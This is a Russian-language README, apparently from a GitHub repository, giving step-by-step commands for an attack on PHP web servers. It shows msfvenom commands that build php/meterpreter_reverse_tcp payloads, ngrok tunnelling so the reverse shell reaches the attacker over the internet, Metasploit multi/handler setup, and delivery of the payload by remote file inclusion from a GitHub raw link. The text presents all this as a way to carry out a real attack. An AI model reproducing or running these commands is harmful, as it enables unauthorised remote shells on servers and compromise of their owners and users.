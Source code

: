 Генерируем payload php в msfvenom.

Синтаксис:
msfvenom -p нужный payload LHOST=ip_адрес LPORT=порт -f формат_файла > имя_файла_на_выходе

Файл local_meterpreter_reverse_tcp.php - файл с локальным ip адрессом в LHOST (сетевой адаптер в режиме NAT), используется если атакующая машинка и сервер-жертва в одной сети.
Пример:
msfvenom -p php/meterpreter_reverse_tcp LHOST ip_адрес LPORT=4444 -f raw > local_meterpreter_reverse_tcp.php

Для того, чтобы провести реальную атаку в интернете стоит использовать ngrok.
Создаём payload на php используюя ngrok для ip адресации (т.к. машинка в NAT, то ngrok прокидывает порты на домен и решает проблему доступнсти ip адреса только внутри сети), грубо говоря: даёшь ngrok-у локальный ip и порт, а он возвращает тебе глобальный.
Как с этим всем работать:
1) ngrok tcp 4444
2) ngrok выдасть нам:
Forwarding   tcp://6.tcp.eu.ngrok.io:15089 -> localhost:4444
3) LHOST=6.tcp.eu.ngrok.io  LPORT=15089
4) msfvenom -p php/meterpreter_reverse_tcp LHOST=6.tcp.eu.ngrok.io LPORT=15089 -f raw > global_meterpreter_reverse_tcp.php 

Работа с meterpreter:
1) msfconsole
2) use exploit/multi/handler
3) set payload php/meterpreter_reverse_tcp
4) set LHOST localhost
5) set LPORT 4444
6) run

Как работать с payloadom:
1) Тыкаем на скрипт
2) Нажимаем Raw
3) Копируем ссылку из адресной строки
4) Вставляем в RFI (к примеру: .....?file=url ссылка на наш GitHub код)

P.s. Сначала запускаем metasploit потом вставляем ссылку на скрипт и перезагружаем страницу.
Последовательность действий:
1) создаём payload (полезную нагрузку)
2) загружаем её на сервер или github
3) настраиваем и запускаем metasploit 
4) вставляем ссылку и rfi 
